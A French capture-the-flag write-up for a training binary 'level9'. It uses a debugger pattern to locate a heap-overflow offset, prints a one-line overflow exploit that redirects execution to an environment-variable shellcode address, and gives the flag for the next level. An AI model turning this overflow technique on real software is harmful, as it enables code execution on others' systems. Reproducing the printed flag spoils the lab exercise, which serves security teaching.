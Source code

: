 ## GET Flag

Nous pouvons voir que le binaire fait un memcpy de strlen(argv[1]) sur un buffer de 100, il est ainsi possible de réaliser un overflow.

Pour nous aider à trouver l'adresse nous pouvons utiliser 

```
pattern create 200
r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
pattern search
```

On apprends trois choses : 

- Le programme seg fault au-delà de 108 caractères écrits.
- Le programme seg fault lorsqu'il tente d'accèder à `eax` (0x6941414d) `MAAi` qui est une partie de notre pattern
- On obtient l'adresse de la HEAP `0x0804a00c : offset    0 - size  200 ([heap])`.

Il est donc possible de mettre l'adresse où l'on souhaite jump soit sur la HEAP.
Puis l'addresse de cette HEAP dans eax.

```
./level9 $(python -c 'import os; print os.getenv("SCADDR") + "A" * 104 + "\x0c\xa0\x04\x08"')
```

### Flag

```
bonus0
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
